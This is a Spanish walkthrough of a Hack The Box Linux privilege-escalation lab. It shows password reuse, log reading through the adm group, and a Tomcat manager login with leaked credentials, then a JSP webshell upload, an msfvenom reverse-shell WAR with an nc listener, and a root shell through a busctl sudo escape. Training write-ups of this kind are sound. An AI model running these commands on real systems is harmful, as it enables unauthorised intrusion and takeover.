Laboratorio de Escalada de Privilegios locales en Linux

Enunciado
Nos han contratado para realizar una evaluación de fortalecimiento de la seguridad en uno de los INLANEFREIGHTservidores web públicos de la organización.
El cliente nos ha proporcionado un usuario con pocos privilegios para evaluar la seguridad del servidor. Conéctese por SSH y comience a buscar configuraciones incorrectas y otras fallas que puedan aumentar los privilegios utilizando las habilidades aprendidas en este módulo.
Una vez en el host, debemos encontrar fiveindicadores en él, accesibles en varios niveles de privilegio. Escalar privilegios de htb-studentusuario a rootusuario y enviar los cinco indicadores para completar este módulo.
Vamos a empezar en el reconocimiento de la máquina: 
Ruta de la pagina principal -> /var/lib/tomcat9/webapps/ROOT/index.html
Envíe el contenido de flag1.txt
Una vez nos conectamos al servidor vemos que entramos con el usuario htb-student.
Revisando en su directorio personal de trabajo
ls -la
Vemos que podemos indagar un poco  En uno de ellos tenemos esto al ir listando los archivos ocultos: 
Envíe el contenido de flag2.txt
Vemos que en home tenemos los usuarios:

Indagamos un poco más en los directorios personales de cada uno hasta donde nos lo permitan los permisos actuales.

Con la contraseña antes vista podemos intentar autenticarnos como el usuario barry:
su barry
Vemos que efectivamente nos lo permite. Con lo cual llemos el archivo flag2.txt

Envíe el contenido de flag3.txt
Estamos como el usuario barry y debemos buscar la siguiente flag, revisamos a los grupos a los que pertenece este usuario y vemos que pertenece al grupo adm, como vimos en el modulo los usuarios que pertenecen a este grupo pueden leer el contenido en el directorio /var/log lo que le permite recopilar información del sistema. Dándonos la siguiente flag.
 Envíe el contenido de flag4.txt En la pista nos dice que nos fijemos en los servicios que estan corriendo en el servidor, por lo tanto revisamos los servicios que están corriendo y vemos esto:
systemctl list-units --type=service --state=running

Enumeramos servicios como apache2, polkit, tomcat etc.
ps aux | grep tomcat
Vemos que este justamente es al que se refieren. Que sucede que no tenemos permisos para leer este archivo.

Por lo que debemos escalar al usuario tomcat
Luego de investigar un poco al rededor del servicio tenemos:

Vemos que hay una copia de respaldo del archivo de usuarios tomcat-users.xml.bak

Al abrirlo vemos un usuario tomcatadm y contraseña T0mc@t_s3cret_p@ss!.
Al visitar el servicio vemos que efectivamente está corriendo e intentamos acceder al panel de administración con las credenciales obtenidas anteriormente.


Y vemos que efectivamente son válidas:

A partir de aquí nos podemos crear una nueva aplicación subiendo archivos WAR. Que nos va a permitir ejecutar comandos en el servidor como usuario tomcat.
- Primero descargamos la webshell JSP aquí y la guardamos como
cmd.jspen nuestra máquina.
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
- Posteriormente comprimimos el
cmd.jspen un archivo por ejemplobackup.war
zip -r backup.war cmd.jsp
Luego subimos el backup.war al servidor.

Este archivo se carga en la interfaz del administrador, después que la aplicación /backup se agregue a la tabla.
 Luego podemos ejecutar comandos en el servidor tal que así
Luego podemos ejecutar comandos en el servidor tal que así
curl http://<IP>:8080/backup/cmd.jsp?cmd=id
 Listamos el directorio actual:
curl http://10.129.255.229:8080/backup/cmd.jsp?cmd=ls
 Leemos la flag:
curl http://10.129.255.229:8080/backup/cmd.jsp?cmd=cat%20flag4.txt

Envíe el contenido de flag5.txt
Para obtener la quinta flag vamos a subir otra aplicación a tomcat para que nos lance una reverse shell y poder ejecutar comandos de forma más cómoda.
Especifica tu IP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4443 -f war > backup2.war
Lo subimos al servidor igual que anteriormente

Antes de hacer click asegurarnos de estar en escucha en el puerto 4443 en nuestra máquina.
nc -nlvp 4443
Hacemos tratamiento a la tty:
python3 -c 'import pty; pty.spawn("/bin/bash")'

Vemos que tenemos capacidad para ejecutar /usr/bin/busctl como root sin password
sudo -l
 Vemos que podemos escalar privilegios mediante esta vía GTFObins
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'

Nos lanzamos una bash y buscamos la flag.

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías